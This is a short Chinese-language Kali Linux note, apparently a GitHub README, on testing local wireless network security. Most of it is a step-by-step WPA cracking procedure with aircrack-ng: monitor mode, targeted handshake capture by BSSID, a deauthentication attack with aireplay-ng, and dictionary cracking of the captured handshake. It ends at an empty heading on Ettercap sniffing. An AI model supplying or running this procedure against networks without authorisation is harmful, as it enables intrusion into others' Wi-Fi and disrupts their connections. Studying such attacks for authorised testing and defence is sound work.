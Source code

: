 # Network_Security_Test_Note for Kali linux
## 測試區域網路安全性
### Aircrack-ng使用
#### 1.開啟終端機使用```airmon-ng start wlan0```開啟網卡Monitor模式  
    可啟用的晶片型號如下:  
    Atheros AR9271  
    Ralink RT3070  
    Ralink RT3572  
    Realtek RTL8812AU  
    Ralink RT5370N  
    Realtek 8187L (Wireless G adapters)
*虛擬機使用網卡的方式Virtual Box直皆引入USB裝置 virtualware使用左上角可移除裝置*
#### 2.使用```airodump-ng wlan0mon```查找範圍內可使用的AP  
#### 3.使用```airodump-ng -w /tmp/wpatest -c 11 --bssid 00:E0:4C:81:96:D1 wlan0mon```針對目標AP收集封包  
  ```-w + 目標路徑``` 設定握手包存放位置  
  ```-c + 頻道號碼``` 選定目標AP所使用之頻道    
  ```-bssid +MAC地址``` 選定目標AP之位址  
#### 4.開另一個終端機使用```aireplay-ng -a 00:E0:4C:81:96:D1 --deauth 4 wlan0mon```對目標AP進行deauth攻擊  
  ```-a + MAC地址``` 選定目標AP之地址  
***特別注意:有些路由器會針對發送過多Deauth封包的IP進行阻擋***
#### 5.待Console1收到handshake即可使用ctrl+c中止擷取資料 並使用```aircrack-ng -w password.lst /tmp/wpatest*.cap```進行解密
```-w password.list```為密碼字典檔,aircrack有內建,但推薦從網路上下載效能較佳
```/tmp/wpatest*.cap```中\*表示握手包編號 此引數不唯一 可以引入多個握手包 將\*替換為編號即可
### 6.解密成功即會print出```KEY FOUND[12345678]```密碼即為12345678

### Etthercap實現封包竊聽
